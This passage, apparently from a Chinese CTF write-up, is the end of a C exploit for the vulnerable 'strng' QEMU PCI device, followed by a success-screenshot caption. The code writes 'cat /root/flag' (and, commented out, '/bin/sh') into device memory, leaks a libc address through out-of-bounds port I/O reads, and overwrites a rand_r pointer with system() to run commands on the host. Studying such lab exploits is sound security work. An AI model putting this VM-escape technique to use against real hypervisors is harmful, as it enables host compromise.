    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);
 

    mmio_write(8,0x20746163);
    mmio_write(12,0x6f6f722f);
    mmio_write(16,0x6c662f74);
    mmio_write(20,0x006761);
    
    /*
    //2f62696e2f7368
    mmio_write(8,0x6e69622f);
    mmio_write(12,0x0068732f);
    */
    // Open and map I/O memory for the strng device
    if (iopl(3) !=0 )
        die("I/O permission is not enough");


    // leaking libc address 
    uint64_t srandom_addr=pmio_arbread(0x108);
    srandom_addr=srandom_addr<<32;
    srandom_addr+=pmio_arbread(0x104);
    printf("leaking srandom addr: 0x%llx\n",srandom_addr);
    uint64_t libc_base= srandom_addr-0x3a8e0;
    uint64_t system_addr= libc_base+0x453a0;
    printf("libc base: 0x%llx\n",libc_base);
    printf("system addr: 0x%llx\n",system_addr);
    
    // overwrite rand_r pointer to system
    pmio_abwrite(0x114,system_addr&0xffffffff);

    mmio_write(0xc,0);

     
}
```


成功截图：

